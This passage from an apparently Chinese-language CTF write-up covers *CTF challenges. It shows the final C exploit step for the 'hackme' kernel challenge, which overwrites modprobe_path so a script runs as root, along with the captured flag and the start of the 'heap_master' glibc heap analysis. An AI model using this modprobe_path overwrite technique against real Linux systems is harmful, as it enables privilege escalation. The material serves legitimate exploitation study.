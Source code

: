 然而，這樣會因為 kernel heap 的結構亂掉，導致 `execve` 執行時會出現 kernel panic，因此必須把 kernel heap 給修好，所以要先拿到 pool table region，透過改寫 pointer，同時修復 heap 以及改寫 `modprobe_path`，不過不確定是否因為 kernel heap 只有一個指向 `modprobe_path` 的 chunk (`buf` 裡面都是 0)，所以讓 heap 不會受影響 (?):

```c
    memset(buf, 0, 0x200); // clear buffer
    ptr[0] = modprobe_path;
    ptr[1] = 0x100;
    create_entry(4, buf, 0x100);
    write_data(1, "/home/pwn/copy.sh\x00", 0x18, 0);
    system("/home/pwn/dummy");
    system("cat /home/pwn/flag");

    close(dev_fd);
```

成功拿到 flag:

```shell
// output
/home/pwn/dummy: line 1: ����: not found
*CTF{userf4ult_fd_m4kes_d0uble_f3tch_perfect}
```

- [參考文章](https://kileak.github.io/ctf/2019/xctf-hackme/)
- 之後會想看其他解法如:
  - [tty_struct](https://balsn.tw/ctf_writeup/20190427-*ctf/#hack_me)
  - [userfault_fd](http://brieflyx.me/2020/linux-tools/userfaultfd-internals/)

P.S. 作者說題目出爛了，應該要有 index boundary checking 的，所以有 **hackme_revenge**



### heap_master

```
// file
./heap_master: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3b9b2fb172a175612c820c4de66a666d6ed0eed6, not stripped

// checksec
[*] '/home/u1f383/tmp/pwn/pwn-heap_master/env/share/heap_master'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

glibc 版本為 2.25。



程式流程十分簡單，首先會建立一塊範圍在 0x10000 ~ 0xFFFFF000 的 0x10000 大小的空間，稱做 `heap_base`，之後有三個功能

- 任意 free `heap_base + offset`
- 任意寫 `heap_offset`
- 任意 `malloc()`
